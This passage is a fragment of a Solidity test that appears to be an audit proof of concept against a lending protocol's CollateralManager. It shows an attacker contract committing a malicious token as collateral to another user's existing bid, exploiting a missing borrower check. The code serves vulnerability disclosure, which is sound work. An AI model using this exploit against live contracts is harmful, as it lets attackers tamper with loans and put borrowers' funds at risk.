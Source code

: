 ```solidity
        );
        uint256 _bidId = borrower.submitBid(
            tellerV2,
            collateralManager,
            address(wethMock2),
            marketId1,
            100,
            10000,
            500,
            "metadataUri://",
            address(borrower),
            collateral
        );
    
        console.log("bidID", _bidId);
        collateralManager.commitCollateral(_bidId, collateral);
        
        lender.approveERC20(
            address(wethMock2),
            address(tellerV2),
            amount
        );
        
        uint256 collateralAmount  = collateralManager.getCollateralAmount(0, address(wethMock));
        console.log("collateralAmount ", collateralAmount);
        console.log("isbidscollateralbacked", collateralManager.isBidCollateralBacked(0));
        lender.accept(tellerV2, _bidId);
        
        assertEq(wethMock2.balanceOf(address(lender)), 100, "(S)he sent 100 wethMock2s, so 100 are left.");
        assertEq(wethMock.balanceOf(address(borrower)), 100, "The borrower submitted 100 wethMocks");
        assertEq(wethMock2.balanceOf(address(borrower)), 150, "The borrower has 150 wethMock2s.");
        
        //  Commit another token (that the borrower already has) as Collateral.
        //  Since the CollateralManager doesn't check the whether the borrower == msg.sender, 
        //  It can add a collateral to an existing bid. 
        //  attack with "wethMock" doesn't work because the escrow saves only one collateral info per one token.

        malToken = attacker.mint();
        console.log("attacker :", address(attacker));
        console.log("owner :", malToken.Owner());
        
        /////////////////////////////
        // MALICIOUS TOKEN EXPLOIT //
        /////////////////////////////
        attacker.attack(address(collateralManager), _bidId, amount, address(malToken), address(borrower));

        console.log("After attack, malToken amount at Collateral", collateralManager.getCollateralAmount(0, address(malToken)));

        tellerV2.setGlobalBidState(BidState.PAID,_bidId);
        
        Payment memory amountOwed = tellerV2.calculateAmountOwed(_bidId);
        uint256 finalAmount = amountOwed.principal + amountOwed.interest;
        console.log("amountOwed :", amountOwed.principal, amountOwed.interest);
        borrower.addAllowance(
            address(wethMock2),
            address(tellerV2),
            finalAmount
        );
```